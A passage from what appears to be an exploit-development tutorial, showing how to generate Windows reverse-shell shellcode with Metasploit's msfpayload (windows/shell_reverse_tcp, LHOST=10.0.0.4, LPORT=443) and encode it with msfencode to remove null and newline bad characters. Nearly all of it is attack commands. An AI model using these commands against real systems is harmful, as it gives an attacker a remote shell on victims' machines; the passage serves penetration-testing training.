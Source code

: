 {% highlight shell-session %}

> msfpayload –l
{% endhighlight %}

- We will use a basic payload called __windows/shell_reverse_tcp__, which acts much like a reverse shell netcat payload.

{% highlight shell-session %}

# The msfpayload script will generate C formatted (C parameter) shellcode
> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 C
{% endhighlight %}

- That was easy enough, however we can immediately identify bad characters in this shellcode, such as null bytes.
- We will need to encode this shellcode using the Metasploit Framework __msfencode__ tool.
- We will also need to provide the msfencode script the specific bad characters we wish to avoid, in the resulting shellcode. Notice that msfencode needs raw shellcode (R parameter) as input.

{% highlight shell-session %}

> msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 R | msfencode -b "\x00\x0a\x0d"
{% endhighlight %}

- The resulting shellcode will send a reverse shell to 10.0.0.4 on port 443, contains no bad characters, and is 341 bytes long.
